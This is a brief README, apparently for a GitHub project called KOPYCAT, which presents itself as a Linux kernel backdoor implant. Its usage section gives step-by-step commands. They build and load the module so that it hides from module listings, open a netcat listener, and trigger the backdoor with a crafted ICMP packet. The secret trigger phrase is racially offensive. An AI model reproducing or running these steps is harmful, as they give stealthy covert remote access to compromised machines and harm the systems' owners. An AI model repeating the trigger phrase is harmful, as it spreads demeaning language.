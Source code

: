 # 0

[KOPYCAT - Linux Kernel module-less implant (backdoor)](https://github.com/milabs/kopycat.git)

[copy from](https://github.com/milabs/kopycat.git)

# Usage

~~~
$ make
$ sudo insmod kopycat.ko
insmod: ERROR: could not insert module kopycat.ko: Inappropriate ioctl for device
$ lsmod | grep kopycat
$ cat /proc/modules | grep kopycat
~~~

Launch `nc` listener:
~~~
$ nc -l 6666
~~~

Trigger the backdoor by sending ICMP packet with secret phrase:
~~~
$ sudo hping3 -c 1 -j -1 -e black-wives-are-fatter 127.0.0.1
~~~

# Author

[Ilya V. Matveychikov](https://github.com/milabs)

2021
